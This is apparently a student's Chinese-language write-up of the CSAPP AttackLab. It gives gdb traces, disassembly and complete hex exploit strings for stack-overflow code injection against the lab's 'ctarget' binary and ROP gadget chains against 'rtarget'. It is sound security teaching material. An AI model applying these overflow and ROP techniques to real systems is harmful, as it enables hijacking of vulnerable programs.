

# AttackLab 思路
## ctarget
ctarget的三个touch都是通过栈溢出攻击实现的。首先根据attacklab的writeup中所给信息：
``` c
unsigned getbuf()
{
    charbuf[BUFFER_SIZE];
    Gets(buf);
    return 1;
}
```
以及ctarget中反汇编所得信息：
``` asm
00000000004016e7 <getbuf>:
  4016e7:	48 83 ec 18          	sub    $0x18,%rsp
  4016eb:	48 89 e7             	mov    %rsp,%rdi
  4016ee:	e8 7d 02 00 00       	callq  401970 <Gets>
  4016f3:	b8 01 00 00 00       	mov    $0x1,%eax
  4016f8:	48 83 c4 18          	add    $0x18,%rsp
  4016fc:	c3                   	retq   
```
可知，BUFFER_SIZE为$0x18$，即24个字节。
#### touch1
观察touch1的源代码：
``` c
void touch1()
{
    vlevel=1; /* Part of validation protocol */
    printf("Touch1!: You called touch1()\n");
    validate(1);
    exit(0);
}
```
可知我们只需要通过缓冲区溢出攻击覆盖掉getbuf的返回地址，即可完成该任务，由反汇编得知，touch1的地址为$0x4016FD$
``` asm
00000000004016fd <touch1>:
  4016fd:	48 83 ec 08          	sub    $0x8,%rsp
  401701:	c7 05 f1 2d 20 00 01 	movl   $0x1,0x202df1(%rip)
......
```
因此我们可以通过下面的字符串完成攻击（需先使用hex2raw转换为二进制）
``` plain
ctargetString/touch1.txt:

00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
FD 16 40 00 00 00 00 00

```
#### touch2
观察touch2的源代码：
``` c
void touch2(unsigned val)
{
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
        }
    exit(0);
}
```
我们必须让`val`的值与`cookie`相等（在本实验中`cookie`的值为$0x754E7DDD$），因此我们必须让程序执行下列汇编代码：
``` asm
intro.touch2.s

mov $0x754e7ddd,%edi
push $0x401729
ret
```
第一行是将`cookie`作为参数传入，第二行将`touch2`的函数地址压栈，第三行返回，即可跳转至`touch2`。
现在的任务就是让程序执行上述指令，我们可以通过将上述指令的机器码压入栈中，让getbuf跳转至栈上储存上述指令的区域来实现。
由gdb调试可知，`charbuf`的首地址为$0x556453F8$
``` plain
(gdb) r
Starting program: /winshare/csapp-homework/10235101439/target3/ctarget -q -i ctargetString/touch2.raw
Cookie: 0x754e7ddd

Breakpoint 3, getbuf () at buf.c:14
14      in buf.c
=> 0x00000000004016eb <getbuf+4>:       48 89 e7        mov    %rsp,%rdi
   0x00000000004016ee <getbuf+7>:       e8 7d 02 00 00  callq  0x401970 <Gets>
(gdb) p /x $rsp
$3 = 0x556453f8
```
于是我们将上述汇编代码转换成机器码后作为字符串输入，并将getbuf的返回地址覆盖为$0x556453F8$。即，我们输入的字符串的二进制序列为：
``` plain
ctargetString/touch2.txt

bf dd 7d 4e 75 68 29 17
40 00 c3 00 00 00 00 00
00 00 00 00 00 00 00 00
f8 53 64 55 00 00 00 00
```
#### touch3
由writeup中给出的代码：
``` c
void touch3(char *sval)
{
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```
而`touch3`中调用的函数`hexmatch`如下：
``` c
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval)
{
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}
```
该函数的目标是将`sval`指向的字符串与`cookie`的16进制字符串形式作比较，若相等则返回1，否则返回0。
当`hexmatch`的返回值为1时则表示`touch3`被解决。
类似于`touch2`，但是我们这次需要在`%rdi`中存入的是字符串的地址
``` asm
intro.touch3.s

mov $0x55645403,%edi
push $0x401837
ret
```
同时，由于调用了一些函数，栈中较低地址的位置会被覆盖掉，因此我们将字符串放置于栈的末尾，需要传入的字符串的二进制表示如下：
``` plain
bf 18 54 64 55 68 37 18
40 00 c3 00 00 00 00 00
00 00 00 00 00 00 00 00
f8 53 64 55 00 00 00 00
37 35 34 65 37 64 64 64 00
```
`cookie`转为二进制表示由以下辅助程序完成：
``` c
//printcookie.c
#include <stdio.h>

int main()
{
    char cookie_str[100];
    sprintf(cookie_str, "%.8x\n", 0x754e7ddd);
    char a;
    int idx = 0;
    while ((a = cookie_str[idx++]) != '\0')
    {
        printf("%.2x ", a);
    }
    printf("\n");
    return 0;
}
```

## rtarget
该程序的任务是通过ROP(Return Oriented Programming)实现攻击，由于rtarget使用了只读保护等各项措施，导致先前的栈攻击无法进行，该任务的大致思路是使用`start_farm`到`end_farm`中的数据拼凑出需要的机器代码，实现跳转到`touch2`和`touch3`并成功执行validate的任务。
#### touch2
类似于ctarget，我们需要将`cookie`的值传入`edi`并跳转到`touch2`执行。
writeup中提供了如下的指令表：

因此最简单的方法是将`cookie`的值存于栈中并弹入`%rdi`中并执行下一条指令，但是目标区域中没有满足我们要求的程序片段（其后必须能够执行`ret`指令以连续运行我们的目标代码）
继续观察，发现我们可以通过先将数据弹入`%rax`中再传入`%rdi`中来实现，相应的代码分别位于$0x4018F7$，$0x4018EE$两个位置
``` asm
......
00000000004018ec <addval_452>:
  4018ec:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4018f2:	c3                   	retq   

00000000004018f3 <setval_382>:
  4018f3:	c7 07 7c 51 58 c3    	movl   $0xc358517c,(%rdi)
  4018f9:	c3                   	retq   
......
```
综上，我们输入的字符串的二进制形式如下：
``` plain
rtargetString/touch2.txt

00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
F7 18 40 00 00 00 00 00
DD 7D 4E 75 00 00 00 00
EE 18 40 00 00 00 00 00
29 17 40 00 00 00 00 00
```

#### touch3
同ctarget中的`touch3`，我们需要将字符串的地址传入`%rdi`中，但是由于栈随机化保护，我们不能像ctarget中那样，将字符串的地址进行硬编码，而应该获取`%rsp`的值，再加上字符串的地址相对于`%rsp`的偏移量来达到效果，幸运的是rtarget为我们提供了一个名为`add_xy`的函数
``` asm
000000000040190d <add_xy>:
  40190d:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  401911:	c3                   	retq   
```
使得我们可以在获取了`%rsp`的值之后轻松地将其与偏移量相加，得到最终的地址并传入`%rdi`，因此我们的目标大致是完成如下操作：
``` asm
    mov %rsp,%rdi
    mov offset,%rsi
    call add_xy
    mov %rax,%rdi
```
但是明显的，rtarget没有为我们提供上述操作，但是仔细观察我们可以发现，`mov %rsp,%rdi`可以通过`%rax`中转，`offset`的值可以通过存入栈中再进行`popq %rax`存入寄存器，最后经由`%eax`和`%ecx`的中转存入`%esi`中。综上，最后的字符串二进制表示如下：
``` plain
rtargetString/touch3.txt

bf dd 7d 4e 75 68 29 17
40 00 c3 00 00 00 00 00
00 00 00 00 00 00 00 00
36 19 40 00 00 00 00 00
e1 18 40 00 00 00 00 00
f7 18 40 00 00 00 00 00
48 00 00 00 00 00 00 00
e3 19 40 00 00 00 00 00
2f 19 40 00 00 00 00 00
a7 19 40 00 00 00 00 00
0d 19 40 00 00 00 00 00
e1 18 40 00 00 00 00 00
37 18 40 00 00 00 00 00
37 35 34 65 37 64 64 64 00
```
